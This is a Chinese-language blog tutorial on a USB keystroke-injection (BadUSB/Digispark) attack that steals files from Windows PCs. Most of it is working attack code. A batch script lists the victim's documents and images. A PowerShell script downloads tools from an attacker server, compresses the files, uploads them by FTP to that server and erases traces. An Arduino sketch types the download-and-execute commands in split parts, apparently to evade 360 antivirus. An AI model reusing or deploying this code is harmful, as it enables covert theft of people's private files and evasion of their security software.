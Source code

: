 ```yaml
---
title: "【HID攻击】360免杀方法-digispark利用PowerShell脚本进行文件窃取"
date: '2019-04-06T20:20:05Z'
tags:
  - 旧博客内容
  - 技术向
updatedOn: '2019-04-06T20:20:05Z'
raw_comment_count: '0'
image: https://oss.keke.su/image/old-fxblog-img/cover/fa92823efb8732e9b61a8ba6d063ad12.jpg
---
```


:::tip
本文迁移自老博客，原始链接为 [https://blog.fxit.top/?p=1011](https://blog.fxit.top/?p=1011)
:::

:::warning
注意，本文章所包含的资源分享已迁移至 [https://233456.xyz/s/wRSz](https://233456.xyz/s/wRSz)
:::

前言

本文是在m大的[https://www.freebuf.com/articles/100026.html](https://www.freebuf.com/articles/100026.html)基础上 进行 digispark代码的适配 以及 360的免杀处理，以弥补原教程的缺失，再次感谢m大提供的思路。

本文对360免杀处理 以及 digispark的代码转换 为博主原创。

本文对m大的文章进行整合修改，并加入digispark的适配以及360免杀的处理部分，以及提供文章提到的相关文件下载。

<hr />

## 准备工具
一台外网主机(直接电脑接网线宽带拨号也可以)

一个HID攻击工具(烧鹅或者Badusb)

FTPserver(搭建一个FTP服务器用来接收窃取到的文件)

PHPstudy(搭建http服务器用来存放ps脚本等)

7z.exe / 7z.dll(存放到http服务器下,之后会利用它来进行压缩后在上传，尽量减小上传速度)

PS：7z.exe以及7z.dll在文末下载。

<hr />

### 代码部分(以下代码可能具有攻击性,请勿用于非法用途)
1.\[get.bat\](获取需要的文件存放位置，并保存到c:\temp.bat)[该代码存放于服务器http根目录下]

<strong>博主PS：此处是寻找对应文件夹里面*.txt等文件类型后缀的文件，保存到c盘根目录的temp.bat。</strong>
```
dir /s /a /b "%userprofile%\desktop\*.txt"&gt;c:\temp.bat
dir /s /a /b "%userprofile%\desktop\*.doc"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\desktop\*.docx"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\desktop\*.xls"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\desktop\*.xlsx"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\desktop\*.ppt"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\desktop\*.xls"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\desktop\*.eet"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\desktop\*.et"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\desktop\*.xlt"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\desktop\*.pdf"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\desktop\*.jpg"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\desktop\*.jpeg"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\desktop\*.png"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\desktop\*.bmp"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\desktop\*.gif"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\desktop\*.rtf"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\desktop\*.htl"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\Documents\Tencent Files\*.txt"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\Documents\Tencent Files\*.doc"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\Documents\Tencent Files\*.docx"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\Documents\Tencent Files\*.xls"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\Documents\Tencent Files\*.xlsx"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\Documents\Tencent Files\*.ppt"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\Documents\Tencent Files\*.xls"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\Documents\Tencent Files\*.eet"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\Documents\Tencent Files\*.et"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\Documents\Tencent Files\*.xlt"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\Documents\Tencent Files\*.pdf"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\Documents\Tencent Files\*.jpg"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\Documents\Tencent Files\*.jpeg"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\Documents\Tencent Files\*.png"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\Documents\Tencent Files\*.bmp"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\Documents\Tencent Files\*.gif"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\Documents\Tencent Files\*.rtf"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\Documents\Tencent Files\*.htl"&gt;&gt;c:\temp.bat
```

2.\[get.ps1\](清除运行记录，下载服务器中的7z.dll / 7z.exe / get.bat到c盘到相应位置,处理c:\temp.bat为7z压缩为c:\Ram.7z,上传c:\Ram.7z到FTP服务器根目录下,删除所有下载的文件!!!一共需要改4处IP地址!!!)[该代码存放于服务器http根目录下记得设置FTP服务器密码为admin admin]

<strong>博主PS：此处是对刚刚寻找到的文件进行压缩并上传到你自己的服务器。</strong>
```
reg delete HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU /f;

(New-Object System.Net.WebClient).DownloadFile('http://192.168.1.1/7z.dll','c:\7z.dll');

(New-Object System.Net.WebClient).DownloadFile('http://192.168.1.1/7z.exe','c:\7z.exe');

(New-Object System.Net.WebClient).DownloadFile('http://192.168.1.1/get.bat','c:\Users\Public\get.bat');

C:\Users\Public\get.bat;$array="";foreach($u in(get-content c:\temp.bat)){[array]$array +='c:\7z a -t7z c:\Ram.7z "'+$u+'"'};$array | Out-File -Encoding default c:\temp.bat;c:\temp.bat;

$fileinf=New-Object System.Io.FileInfo("C:\Ram.7z");

$ftp = [System.Net.FtpWebRequest] [System.Net.FtpWebRequest]::Create("ftp://192.168.1.1/"+$fileinf.name)

$ftp.Method = [System.Net.WebRequestMethods+Ftp]::UploadFile

$ftp.Credentials = new-object System.Net.NetworkCredential("admin","admin")

$ftp.UseBinary = $true

$ftp.UsePassive = $true

$content = [System.IO.File]::ReadAllBytes($fileInf.fullname)

$ftp.ContentLength = $content.Length

$rs = $ftp.GetRequestStream()

$rs.Write($content, 0, $content.Length)

$rs.Close()

$rs.Dispose()

Remove-Item c:\temp.bat

Remove-Item c:\Ram.*

Remove-Item c:\7z.*

Remove-Item c:\Users\Public\get.*
```
### （下条为博主修改过的原创内容！）
3.\[get.ino\](以管理员权限下载get.ps1到本地c:\users\public目录!!!需要改1处IP地址!!!UAC闪过之后要记得拔出)[修改IP后直接刷入]
```
#include "DigiKeyboard.h"
#define KEY_LEFT_SHIFT 0xE1
#define KEY_LEFT_ALT 0xE1
void setup() {
DigiKeyboard.sendKeyStroke(0);
DigiKeyboard.delay(5000);
DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
DigiKeyboard.delay(100);
DigiKeyboard.sendKeyPress(KEY_LEFT_SHIFT);//按住左SHIFT，绕过输入法
DigiKeyboard.println("POWERSHELL -NOP");
DigiKeyboard.sendKeyPress(0);//松开
DigiKeyboard.sendKeyStroke(KEY_ENTER);//按回车
DigiKeyboard.delay(2000);
DigiKeyboard.println("$clnt=new-object System.Net.WebClient;");//开始分part执行实现360免杀
DigiKeyboard.println("$url='http://你上传的服务器域名/GET.ps1\';");
DigiKeyboard.println("$file='C:\\USERS\\PUBLIC\\GET.PS1';");
DigiKeyboard.println("$clnt.DownloadFile($url,$file);");
DigiKeyboard.println("START-PROCESS POWERSHELL.exe \"C:\\USERS\\PUBLIC\\GET.PS1\" -WindowStyle Hidden");
DigiKeyboard.println("exit");
}

void loop() {
  DigiKeyboard.sendKeyPress(KEY_LEFT_ALT);
  DigiKeyboard.sendKeyPress(KEY_LEFT_ALT);
  DigiKeyboard.print("y");
  DigiKeyboard.sendKeyPress(KEY_LEFT_ALT);
  DigiKeyboard.sendKeyPress(KEY_LEFT_ALT);
  DigiKeyboard.sendKeyPress(KEY_LEFT_ALT);
  DigiKeyboard.sendKeyPress(KEY_LEFT_ALT);
}
```
上面通过分part执行，以跳过360的弹窗提示。

<hr />

以上。

相关文件下载链接在文末。
